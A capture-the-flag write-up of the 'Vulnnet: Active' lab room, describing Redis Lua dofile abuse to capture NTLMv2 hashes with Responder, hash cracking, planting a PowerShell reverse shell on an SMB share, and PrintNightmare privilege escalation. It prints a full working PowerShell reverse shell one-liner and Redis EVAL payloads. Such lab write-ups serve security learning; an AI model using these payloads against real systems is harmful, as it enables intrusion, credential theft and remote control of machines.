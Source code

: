 # Vulnnet: Active

I found this room very hard, with a bunch of new techniques I haven't seen before. So worth writing up.

1. Enumeration reveals a bunch of ports, though notably no web port, ssh or rdp. Even though its a windows machine, the only interaction seems to be via SMB and an exposed Redis instance on 6379.
2. The Redis instance was running version 2.8, and did not require authentication. It contained no keys of note. However, this version of Redis contains a 'vulnerability' where you can use 'dofile' in the LUA sandbox, allowing you to access files or network shares. E.g. `EVAL "dofile('/etc/passwd')" 0` would work on a linux machine.
3. For a windows machine, notably, this can be used to access network shares. Which means, if I set up responder, I might be able to catch a hash.
4. Setting up responder from this repo (the new version, 3.0+), https://github.com/lgandx/Responder, then using something like `EVAL "dofile('//yourip//share')" 0` will catch an NTMLv2 hash.
5. This can be cracked using hashcat, using -m 5600 and rockyou, to reveal the password for user 'enterprise-security'.
6. With the username and password, the shares can be enumerated with smbclient revealing and accessing 'enterprise-share'. In here is a powershell file, named purge...ps1
7. By replacing this file with a new one containing a rev shell payload, a rev shell can be established. I used the following payload:

```
$client = New-Object System.Net.Sockets.TCPClient('10.4.0.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Simply place this in a file with the same name as the script, and put onto the share (it will overrite the existing one). Then set up a listener and wait.

8. The rev shell will be established momentarily. However, to improve it, generate a msfvenom rev shell (windows/x64/shell_reverse_tcp), upload it to the share, then run it with your rev shell. This will grant a more stable shell that also correctly outputs stderror.
9. The intended path to privesc looks to be GPO abuse: https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/ and using a tool like https://labs.f-secure.com/tools/sharpgpoabuse. However I couldn't a) fully understand this and b) get sharpgpoabuse working (likely because I was using the basic rev shell). Instead, print nightmare works
10. This version of print nightmare is a simple powershell script: https://github.com/calebstewart/CVE-2021-1675. Upload it using the share, then import it and run it as shown on the readme. It will quickly generate a user (if run with no args, this will be the user `adm1n`, note the `1`).
11. To get the final flag, the new user can be used with the share `c$` to enumerate the system fully.
